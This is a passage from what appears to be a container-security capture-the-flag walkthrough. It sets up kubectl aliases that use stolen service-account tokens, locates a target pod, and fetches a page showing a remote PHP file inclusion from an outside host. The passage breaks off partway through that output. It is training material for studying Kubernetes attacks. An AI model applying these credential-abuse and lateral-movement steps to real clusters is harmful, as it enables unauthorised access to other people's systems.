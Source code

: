 142. To recap what privileges we have in this namespace: we have the `davinci` service account token (in `/davincitoken`), which is allowed to create services and configMaps and we have the `theplague` token (in `/newtoken`) which is allowed to create pods.

143. Let's set up a kubectl aliases for each token, to make things easier. First, `unalias` the `kubectl` command:

        ```shell
        unalias kubectl
        ```

144. Next, set up a `kubectl-theplague` alias for when we need to use `theplague`'s token.

        ```shell
        tokendir="/run/secrets/kubernetes.io/serviceaccount"
        alias kubectl-theplague="kubectl --token=$(cat /newtoken) \
        --server="https://kubernetes.default.svc.cluster.local" \
        --certificate-authority=$tokendir/ca.crt -n ellingson-min"
        ```

145. Finally, set up a `kubectl-davinci` alias for when we need to use `davinci`'s token.

        ```shell
        alias kubectl-davinci="kubectl --token=$(cat /davincitoken) \
        --server="https://kubernetes.default.svc.cluster.local" \
        --certificate-authority=$tokendir/ca.crt \
        -n ellingson-min"
        ```

146. So let's check out the `gibson` pod.  First, get its IP address:

        ```shell
        ip=$(kubectl-davinci get pods -o wide |grep gibson | awk '{print $6}')
        ```

147. Connect to the IP:

        ```shell
        curl -s http://$ip
        ```

148. Review the output from that page. The output from our test system follows:

        ```
        <html>
        <body>
        "Row, row, row!"
        <p>
        Unless five million dollars are transferred to the following numbered account in seven days, I will capsize five tankers in the Ellingson fleet.
        <p>
        This PHP page's next line of code is this:
        <p>
        <pre>
        include 'http://static.containersecurityctf.com/static-inclusion.php';
        </pre>
        <p>
